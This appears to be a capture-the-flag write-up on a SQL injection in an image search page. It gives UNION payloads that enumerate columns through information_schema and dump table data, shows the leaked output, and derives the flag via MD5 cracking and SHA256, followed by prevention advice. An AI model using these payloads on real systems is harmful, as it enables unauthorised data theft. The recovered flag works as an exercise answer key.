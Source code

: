 # Image search SQL injection

## Vulnerability
* Go to `Search image`
* List columns of table `list_images` (hex `0x6c6973745f696d61676573`)
```sql
null union select null,column_name from information_schema.columns where  table_name=0x6c6973745f696d61676573
```
* Select `title` and `comment` columns in `list_images` table
```sql
null union select title,comment from list_images 
```
* Outputs
```
title: If you read this just use this md5 decode lowercase then sha256 to win
 this flag ! : 1928e8083cf461a51303633093573c46
comment: Hack me ?
```
* https://md5hashing.net/hash/md5/1928e8083cf461a51303633093573c46
* MD5 `1928e8083cf461a51303633093573c46` <-> `albatroz`
* `albatroz` <-> SHA256 `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

## Attack

A SQL injection attack consists of insertion or “injection” of a SQL query via 
the input data from the client to the application. 

## Fix
* Use prepared Statements (with Parameterized Queries)
* Avoid dynamically construct a SQL query. Don't simply concatenate strings
 including user inputs to construct SQL
 query
* Validate parameters from the client 

## Reference
https://portswigger.net/web-security/sql-injection/union-attacks
https://en.wikipedia.org/wiki/Information_schema
https://dev.mysql.com/doc/refman/5.7/en/information-schema-tables-table.html
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
